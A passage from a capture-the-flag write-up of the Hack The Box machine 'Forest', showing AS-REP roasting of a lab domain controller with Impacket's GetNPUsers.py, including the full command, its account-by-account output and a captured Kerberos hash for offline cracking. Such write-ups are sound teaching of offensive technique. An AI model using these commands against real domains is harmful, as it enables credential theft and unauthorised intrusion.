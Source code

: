 ## Getting a Foothold / User Flag

We have a list of users, and we've enumerated the box to understand how we can attack it for a foothold. Let's work on that. Since this is a DC, we can again use that to our advantage, and attack Kerberos.

Remember how I said Impacket would be important when we used it to build a list of users? With that list of users, we can look for users who have DONT_REQ_PREAUTH set, making them vulnerable to as asrep roast kerberos attack. There's an [excellent writeup on this technique over on harmj0y's blog](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/). Here's a quick summary of this attack from harmj0y:

> **tl;dr** – if you can enumerate any accounts in a Windows domain that don’t require Kerberos preauthentication, you can now easily request a piece of encrypted information for said accounts and efficiently crack the material offline, revealing the user’s password.

So this is exactly where we are with forest. We can use the userlist we gathered to check if any of the accounts match the criteria that makes them vulnerable to this attack with another Impacket tool (GetNPUsers.py).

{{< highlight markdown >}}
root@kali:[~/src/impacket/examples]:(master %)
[Exit: 0] 22:16: ./GetNPUsers.py htb.local/ -usersfile ~/ctf/forest/users.txt -dc-ip 10.10.10.161 -format hashcat -outputfile hashes.asreproast
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
root@kali:[~/src/impacket/examples]:(master %)
[Exit: 0] 22:19: cat hashes.asreproast
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e831e9a29eb858a0c3dda0b867380937$75bd5e5c9354e117bad4345ae9c2ebe751ebe728d493b004ca47d866338f70931f2b74163520cf365ba863e2838fe8cb777ba5edfcc3b57f8b9dc7df9aa46b9229226cd695f606e2fbd8c68da25ed5b6c3e906f3aec4aa47d3d55929a75de69573d31e2049b86d0d11bdaa612cb78a3404dcfa34ecfd5c28793bacb0ad0256acd2265075ebfcdf0172b4031c0098e08db042e205c15f41595707c93934d3000515af1fc67c2885f260f0180d43bf6c85e39454c7cdac427a0224355199e34fe45048cf83998a1a4bff52a45cc35a56ef8d8175baa7f7fd37490386c4a6fed17d9a4f205cec1a
root@kali:[~/src/impacket/examples]:(master %)